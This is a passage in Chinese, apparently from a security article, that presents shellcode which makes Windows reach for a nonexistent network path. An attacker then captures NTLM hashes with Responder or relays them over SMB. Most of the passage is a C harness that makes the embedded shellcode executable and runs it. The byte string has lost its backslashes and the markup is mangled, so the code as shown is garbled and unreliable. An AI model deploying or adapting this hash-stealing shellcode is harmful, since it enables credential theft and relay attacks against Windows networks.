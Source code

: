 

**Shellcode**

下面的[Shellcode](https://packetstormsecurity.com/files/141707/CreateFile-Shellcode.html)使用了CreateFile函数，并尝试读取一个不存在的网络路径。你可以使用类似Responder的工具抓取NTLM HASH值。通过修改Shellcode，攻击者甚至可以直接偷取网络中传输的其他HASH。也可以执行SMBRelay攻击。代码如下：



```
/*
    Title: CreateFile Shellcode
    Author: Osanda Malith Jayathissa (@OsandaMalith)
    Website: https://osandamalith.com
    Size: 368 Bytes
*/
# include &lt;stdlib.h&gt;
# include &lt;stdio.h&gt;
# include &lt;string.h&gt;
# include &lt;windows.h&gt;
int main() `{`
  char *shellcode = 
  "xe8xffxffxffxffxc0x5fxb9x4cx03x02x02x81xf1x02x02"
  "x02x02x83xc7x1dx33xf6xfcx8ax07x3cx05x0fx44xc6xaa"
  "xe2xf6xe8x05x05x05x05x5ex8bxfex81xc6x29x01x05x05"
  "xb9x02x05x05x05xfcxadx01x3cx07xe2xfax56xb9x8dx10"
  "xb7xf8xe8x5fx05x05x05x68x31x01x05x05xffxd0xb9xe0"
  "x53x31x4bxe8x4ex05x05x05xb9xacxd5xaax88x8bxf0xe8"
  "x42x05x05x05x6ax05x68x80x05x05x05x6ax03x6ax05x6a"
  "x01x68x05x05x05x80x68x3ex01x05x05xffxd0x6ax05xff"
  "xd6x33xc0x5exc3x33xd2xebx10xc1xcax0dx3cx61x0fxbe"
  "xc0x7cx03x83xe8x20x03xd0x41x8ax01x84xc0x75xeax8b"
  "xc2xc3x8dx41xf8xc3x55x8bxecx83xecx14x53x56x57x89"
  "x4dxf4x64xa1x30x05x05x05x89x45xfcx8bx45xfcx8bx40"
  "x0cx8bx40x14x89x45xecx8bxf8x8bxcfxe8xd2xffxffxff"
  "x8bx70x18x8bx3fx85xf6x74x4fx8bx46x3cx8bx5cx30x78"
  "x85xdbx74x44x8bx4cx33x0cx03xcexe8x96xffxffxffx8b"
  "x4cx33x20x89x45xf8x33xc0x03xcex89x4dxf0x89x45xfc"
  "x39x44x33x18x76x22x8bx0cx81x03xcexe8x75xffxffxff"
  "x03x45xf8x39x45xf4x74x1cx8bx45xfcx8bx4dxf0x40x89"
  "x45xfcx3bx44x33x18x72xdex3bx7dxecx75x9cx33xc0x5f"
  "x5ex5bxc9xc3x8bx4dxfcx8bx44x33x24x8dx04x48x0fxb7"
  "x0cx30x8bx44x33x1cx8dx04x88x8bx04x30x03xc6xebxdf"
  "x21x05x05x05x50x05x05x05x6bx65x72x6ex65x6cx33x32"
  "x2ex64x6cx6cx05x2fx2fx65x72x72x6fx72x2fx61x61x05";
  DWORD oldProtect;
  wprintf(L"Length : %d bytesn@OsandaMalith", strlen(shellcode));
  BOOL ret = VirtualProtect (shellcode, strlen(shellcode), PAGE_EXECUTE_READWRITE, &amp;oldProtect);
  if (!ret) `{`
      fprintf(stderr, "%s", "Error Occured");
      return EXIT_FAILURE;
  `}`
  ((void(*)(void))shellcode)();
  VirtualProtect (shellcode, strlen(shellcode), oldProtect, &amp;oldProtect);
  return EXIT_SUCCESS;
`}`
```
